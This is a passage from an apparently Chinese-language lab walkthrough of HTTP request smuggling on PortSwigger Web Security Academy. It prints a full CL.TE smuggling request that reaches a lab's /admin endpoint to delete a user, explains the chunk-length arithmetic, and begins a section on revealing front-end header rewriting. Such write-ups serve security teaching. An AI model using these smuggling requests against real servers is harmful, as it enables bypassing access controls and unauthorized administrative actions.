 ```
0

```

![image-20200715155343460](http%E8%B5%B0%E7%A7%81/1594912415.png!small)

访问到`/admin`界面，之后用http走私进行删除用户操作，构造数据包:

```
POST / HTTP/1.1
Host: ac3a1fae1e6af8dc808e11f800b3006a.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=D0lB6HQGL0w9onv0dX9xPFQZgSLJDGGe
Upgrade-Insecure-Requests: 1
Content-length: 4
Transfer-Encoding: chunked

87
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```

![image-20200715161010401](http%E8%B5%B0%E7%A7%81/1594912424.png!small)

此处需说明一点，请求包中chunk分块传输的数据库长度必须正确，同时走私请求中的Content-Length长度也需保证正确，否则会提示无法识别或非法请求。（因而这里87对应的十进制是：135。）

![image-20200715161600238](http%E8%B5%B0%E7%A7%81/1594912432.png!small)

### 5.2 显示前端请求重写

在这种网络环境下，前端代理服务器在接收到请求后不会直接将请求转发给后端服务器，而是先添加一些必要的字段然后转发给后端服务器。

如果不能获取到前端代理服务器添加或重写的字段，那么我们走私的请求就无法被后端服务器处理。

如何获取这些值，这里有一个简单的方法：

1. 找一个能够将请求参数的值输出到响应中的POST请求
2. 把该POST请求中，找到的这个特殊的参数放在消息的最后面
3. 然后走私这一个请求，然后直接发送一个普通的请求，前端服务器对这个请求重写的一些字段就会显示出来。

Lab地址：https://portswigger.net/web-security/request-smuggling/exploiting/lab-reveal-front-end-request-rewriting

页面有个搜索框：
